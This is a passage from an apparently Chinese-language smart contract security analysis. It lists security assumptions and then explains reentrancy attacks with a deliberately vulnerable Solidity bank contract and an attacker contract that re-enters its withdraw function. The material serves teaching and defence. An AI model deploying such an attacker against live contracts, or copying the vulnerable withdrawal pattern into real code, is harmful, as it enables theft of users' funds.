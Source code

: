 - 椭圆曲线离散对数困难性
- 哈希函数抗碰撞性
- 数字签名不可伪造性
- 零知识证明正确性

**网络假设 (Network Assumptions):**

- 网络分区有限性
- 拜占庭节点比例限制
- 区块确认时间有界
- Gas价格合理范围

## 2. 核心安全漏洞分析 (Core Security Vulnerability Analysis)

### 2.1 重入攻击 (Reentrancy Attacks)

#### 2.1.1 攻击原理 (Attack Principle)

**经典重入攻击 (Classic Reentrancy Attack):**

```solidity
// 易受攻击的合约
contract VulnerableBank {
    mapping(address => uint256) public balances;
    
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw() external {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "Insufficient balance");
        
        // 危险: 在状态更新前转账
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
        
        balances[msg.sender] = 0;  // 状态更新太晚
    }
}

// 攻击合约
contract ReentrancyAttacker {
    VulnerableBank public bank;
    bool private attacking;
    
    constructor(address _bank) {
        bank = VulnerableBank(_bank);
    }
    
    function attack() external payable {
        bank.deposit{value: msg.value}();
        bank.withdraw();
    }
    
    receive() external payable {
        if (address(bank).balance >= msg.value && !attacking) {
            attacking = true;
            bank.withdraw();
            attacking = false;
        }
    }
}
```
